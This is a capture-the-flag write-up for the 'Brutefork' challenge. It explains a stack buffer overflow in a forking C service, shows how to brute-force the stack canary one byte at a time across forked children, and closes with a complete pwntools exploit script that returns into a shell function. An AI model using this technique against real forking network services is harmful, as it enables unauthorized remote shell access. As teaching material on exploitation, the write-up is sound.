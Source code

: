 #Brutefork

## Description

> I locked myself out of my server and it doesn't accept my password anymore :(
>
> Can you restore access please?

## Solution

We are supplied with a binary, its source code and a connection to a server where the binary is running. Having access to the source code will greatly speed up the reversing process, since we don't have to deal with assembly code.

First we are going to read the source code in order to understand the service and find an exploitable vulnerability. Then analyze and exploit the vulnerability to get remote code execution on the server.

To solve this challenge, the following tools were used:

- [Python](https://www.python.org/)

- [pwntools](https://github.com/Gallopsled/pwntools)

### Analyzing the Source Code

When reading through the source code, the first thing that stands out is that the service implements its own fork server.

```c
// create socket
int sockfd = socket(AF_INET, SOCK_STREAM, 0);

// set address (any) and port (PORT)
struct sockaddr_in addr = {0};
addr.sin_family = AF_INET;
addr.sin_port = htons(PORT);
addr.sin_addr.s_addr = htonl(INADDR_ANY);

// prepare for accepting connections
bind(sockfd, (struct sockaddr *)&addr, sizeof addr);
listen(sockfd, 8);

while (1) {
    // wait for new connection
    int clientfd = accept(sockfd, NULL, NULL);

    // fork: parent waits for next connection, child handles connection
    if (fork() == 0) {
        // in child
        handle();
        return EXIT_SUCCESS;
    }
}
```

This is unusual to see in an exploitation challenge, so probably relevant for the solution.

Apart from that, a handy `shell` function is provided, which unconditionally spawns a shell for us.

```c
void shell(void) {
    execl("/bin/sh", "sh", (char *)NULL);
}
```

Unfortunately, there's no way we can reach this function using the intended control flow, because the password check always returns `false`.

```c
bool check_pass(const char *pass) {
    return false;
}

void handle(void) {
    char buf[100];

    printf("Input password: ");
    read(STDIN_FILENO, buf, 0x100);

    if (check_pass(buf)) {
        printf("Authenticated. Here's your shell:\n");
        shell();
    } else {
        printf("Authentication failed!\n");
    }
}
```

However, looking at the function above we can spot a bug: the password buffer `buf` holds `100` bytes, but we can write up to `0x100 == 256` bytes.

Now that we completely analyzed the source code, we can proceed to exploit the service.

### Exploiting the Service

So far this looks like a classic stack buffer overflow: we overflow the stack buffer up to the saved return address and overwrite it with the address of the provided `shell` function. When the `handle` function returns, it would "return into" the `shell` function, and spawn a shell.

But as it turns out, the binary was compiled with stack canaries enabled:

```c
// built with:
//   gcc -no-pie -fstack-protector-all -O0 -m32 -ggdb3 -o brutefork brutefork.c
```

With this option, the compiler inserts a stack canary (also called stack cookie or stack protector) between the local variables and the return address, and verifies its integrity before using the stored return address. Currently, the canary is generated randomly on process startup and the same canary is used for all functions.

We conclude that the bug we found is not enough to actually exploit the service, we also have to somehow bypass the stack canary.

This is where the forkserver becomes relevant: when a process forks, the stack canary is preserved! This is actually related to the fact that a single canary is used for all functions: the child process may return from functions which were entered before the fork. For these functions, the canary stored on the stack will inevitably be the canary of the process before the fork. So, in order to be able to successfully verify the integrity of the canary, the child process has to use the same canary.

But how does that help us in bypassing the canary? It's still unknown and initially randomly generated. However, we can bruteforce the first byte of the canary if we connect to the service multiple times to try each possible byte. Afterwards, we repeat the same process on the next byte, until we know the whole canary.

Now that we know how to get the canary, the exploit turns into a classic stack buffer overflow as described above: overwrite the saved return address to return into the `shell` function.

Flag: `CSR{th1s_w0rk5_f0r_ASLR_7oo!!}`

### Exploit Code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.binary = 'brutefork'


def exploit():
    bytes = [chr(n) for n in range(256)]

    p = log.progress("Leaking canary")
    canary = '\0'

    while len(canary) < 4:
        for b in bytes:
            guess = canary + b

            p.status("%s", ' '.join(enhex(c) for c in guess))
            if try_canary(guess):
                canary = guess
                break
        else:
            log.error("Failed to leak canary")

    p.success("%s", ' '.join(enhex(c) for c in canary))

    r = connection(canary + 'B'*12 + p32(context.binary.symbols.shell))
    sleep(1)
    r.sendline('cat flag')
    log.success("Flag: %s", r.recvline_contains('CSR').strip())


def try_canary(guess):
    with context.local(log_level='ERROR'):
        r = connection(guess)
        ret = r.recvall()
        r.close()
        return ret.strip().endswith('failed!')


def connection(canary):
    r = remote('localhost', 1337)
    r.sendafter('password: ', 'A' * 100 + canary)
    return r


if __name__ == "__main__":
    exploit()
```


##Flag
`CSR{th1s_w0rk5_f0r_ASLR_7oo!!}`


##Creator
Jan-Niklas Sohn



